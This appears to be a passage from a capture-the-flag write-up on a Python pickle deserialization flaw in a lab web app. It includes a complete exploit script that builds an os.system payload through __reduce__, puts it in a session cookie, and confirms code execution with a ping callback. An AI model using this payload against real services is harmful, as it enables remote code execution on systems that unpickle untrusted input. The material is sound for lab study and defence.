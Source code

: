 > **Python Deserialization Phase**
> 

`echo 'gASVBwAAAAAAAACMA3BpZZQu' | base64 -d | sed 's/\x00/ /g'`

```powershell
��       �pie�
```

`sudo tcpdump -i tun0 icmp`

```powershell
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

`nano compser.py`

```powershell
import pickle
import base64
import os
import requests
import sys

command = ""

class RCE:
    def __reduce__(self):
        cmd = (command)
        return os.system, (cmd,)

if __name__ == '__main__':
    command = sys.argv[1]
    pickled = pickle.dumps(RCE())
    cookie = base64.urlsafe_b64encode(pickled).decode('utf-8')
    url = "http://unbaked.thm:5003/"
    s = requests.Session()

    # 0 dummy post to get session
    s.get(url)

    # 1 post with cookie
    s.cookies.set('search_cookie',cookie)
    r = s.get(url+'search')

    # 2 read reply
    r = requests.get(url)
    print (r.content.decode('utf-8'))
```

`python3 compser.py 'ping -c 1 10.2.37.37'`

```powershell
03:18:36.891184 IP unbaked.thm > 10.2.37.37: ICMP echo request, id 71, seq 1, length 64
03:18:36.891229 IP 10.2.37.37 > unbaked.thm: ICMP echo reply, id 71, seq 1, length 64
```
